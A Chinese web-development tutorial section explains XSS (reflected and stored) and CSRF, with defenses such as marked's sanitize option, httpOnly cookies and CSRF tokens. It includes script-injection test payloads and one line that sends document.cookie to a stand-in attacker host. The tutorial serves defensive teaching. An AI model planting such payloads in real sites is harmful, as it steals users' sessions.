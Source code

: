 # 一些安全问题

Web 应用中存在很多安全风险，这些风险会被黑客利用，轻则篡改网页内容，重则窃取网站内部数据，更为严重的则是在网页中植入恶意代码，使得用户受到侵害。常见的安全漏洞如下：

- XSS 攻击：对 Web 页面注入脚本，使用 JavaScript 窃取用户信息，诱导用户操作。
- CSRF 攻击：伪造用户请求向网站发起恶意请求。
- 钓鱼攻击：利用网站的跳转链接或者图片制造钓鱼陷阱。
- HTTP参数污染：利用对参数格式验证的不完善，对服务器进行参数注入攻击。
- 远程代码执行：用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。

本文主要讲述xss和csrf的攻击。当年cnode就被自动回复，弹窗搞得满天飞 哈哈哈。

## XSS的防范

我们先来看看我们现在存在的问题，打来你编写的博客应用，在留言或者新建文章需要用户输入的时候直接输入

```
<script>alert(xss)</script>
```

在新建文章页，你会发现，再输入的时候就会弹出弹窗，先别管。将它发布出去，接下来每次进入详细内容页你都能看见这个弹窗。我们应该对XSS过滤，把标签符号转为实体字符，同时过滤掉非法脚本。在这个项目中我们使用了marked这个库来转换markdown语法，我们只需要开启即可

```diff
marked.setOptions({
...
 - sanitize: false
 + sanitize: true
...
})
```

XSS（cross-site scripting，因为已经有个CSS了，所以它叫了XSS）跨域脚本攻击攻击是最常见的 Web 攻击，攻击者利用这种漏洞在网站上注入恶意的客户端代码。其重点是『跨域』和『客户端执行』。

XSS 攻击一般分为两类：

- Reflected XSS（反射型的 XSS 攻击）
- Stored XSS（存储型的 XSS 攻击）

###  Reflected XSS
反射型的 XSS 攻击，主要是由于服务端接收到客户端的不安全输入，在客户端触发执行从而发起 Web 攻击。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS随响应内容一起返回给浏览器，最后浏览器解析执行XSS代码。例如：

在某购物网站搜索物品，搜索结果会显示搜索的关键词。搜索关键词填入`<script>alert('handsome boy')</script>`, 点击搜索。页面没有对关键词进行过滤，这段代码就会直接在页面上执行，弹出 alert。

###  Stored XSS

基于存储的 XSS 攻击，是通过提交带有恶意脚本的内容存储在服务器上，当其他人看到这些内容时发起 Web 攻击。一般提交的内容都是通过一些富文本编辑器编辑的，很容易插入危险代码。存储型XSS和反射型的XSS差别就在于，存储型的XSS提交的代码会存储在服务器端 



## CSRF 的防范

CSRF（Cross-site request forgery）跨站请求伪造，也被称为 `One Click Attack` 或者 `Session Riding`，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。 CSRF 攻击会对网站发起恶意伪造的请求，严重影响网站的安全。

通常来说，对于 CSRF 攻击有一些通用的防范方案，简单的介绍几种常用的防范方案：

- Synchronizer Tokens：通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
- Double Cookie Defense：将 token 设置在 Cookie 中，在提交 post 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
- Custom Header：信任带有特定的 header（例如 `X-Requested-With: XMLHttpRequest`）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式

在前面我们只是`alert('xss')` ，如果将可执行脚本改为

```
location.href='http://www.xss.com?cookie='+document.cookie；
```

那我们将可以获取到用户的cookie，可以以这个用户的身份登录成功。koa cookie默认设置为httpOnly，这样能有效的防止XSS攻击。

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。
